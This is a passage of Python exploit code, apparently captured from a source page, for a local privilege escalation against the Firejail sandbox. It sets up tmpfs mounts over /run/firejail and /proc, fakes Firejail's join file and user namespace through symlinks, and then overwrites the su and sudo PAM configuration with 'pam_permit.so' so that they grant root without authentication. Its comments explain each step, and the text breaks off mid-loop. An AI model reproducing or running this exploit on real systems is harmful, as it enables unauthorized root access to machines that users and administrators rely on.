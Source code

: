 ```python

# Make the firejail state directory writeable, we need to place a symlink to
# the fake join state file there
mountTmpFS("/run/firejail")
# Mount a tmpfs over the proc state directory of the init process, to place a
# symlink to a fake "user" ns there that firejail thinks it is joining
try:
    mountTmpFS("/proc/1")
except subprocess.CalledProcessError:
    # This is a special case for Fedora Linux where SELinux rules prevent us
    # from mounting a tmpfs over proc directories.
    # We can still circumvent this by mounting a tmpfs over all of /proc, but
    # we need to bind-mount a copy of our own time namespace first that we can
    # symlink to.
    with open("/tmp/time", 'w') as _:
        pass
    time_ns_src = "/tmp/time"
    bindMount("/proc/self/ns/time", time_ns_src)
    mountTmpFS("/proc")

FJ_MNT_ROOT = Path("/run/firejail/mnt")

# Create necessary intermediate directories
os.makedirs(FJ_MNT_ROOT)
os.makedirs("/proc/1/ns")

# Firejail expects to find the umask for the "container" here, else it fails
with open(FJ_MNT_ROOT / "umask", 'w') as umask_fd:
    umask_fd.write("022")

# Create the symlink to the join file to pass Firejail's sanity check
os.symlink(join_file, FJ_MNT_ROOT / "join")
# Since we cannot join our own user namespace again fake a user namespace that
# is actually a symlink to our own time namespace. This works since Firejail
# calls setns() without the nstype parameter.
os.symlink(time_ns_src, "/proc/1/ns/user")

# The process joining our fake sandbox will still have normal user privileges,
# but it will be a member of the mount namespace under the control of *this*
# script while *still* being a member of the initial user namespace.
# 'no_new_privs' won't be set since Firejail takes over the settings of the
# target process.
#
# This means we can invoke setuid-root binaries as usual but they will operate
# in a mount namespace under our control. To exploit this we need to adjust
# file system content in a way that a setuid-root binary grants us full
# root privileges. 'su' and 'sudo' are the most typical candidates for it.
#
# The tools are hardened a bit these days and reject certain files if not owned
# by root e.g. /etc/sudoers. There are various directions that could be taken,
# this one works pretty well though: Simply replacing the PAM configuration
# with one that will always grant access.
with tempfile.NamedTemporaryFile('w') as tf:
    tf.write("auth sufficient pam_permit.so\n")
    tf.write("account sufficient pam_unix.so\n")
    tf.write("session sufficient pam_unix.so\n")

    # Be agnostic about the PAM config file location in /etc or /usr/etc
    for pamd in ("/etc/pam.d", "/usr/etc/pam.d"):
        if not os.path.isdir(pamd):
            continue
        for service in ("su", "sudo"):
            service = Path(pamd) / service
```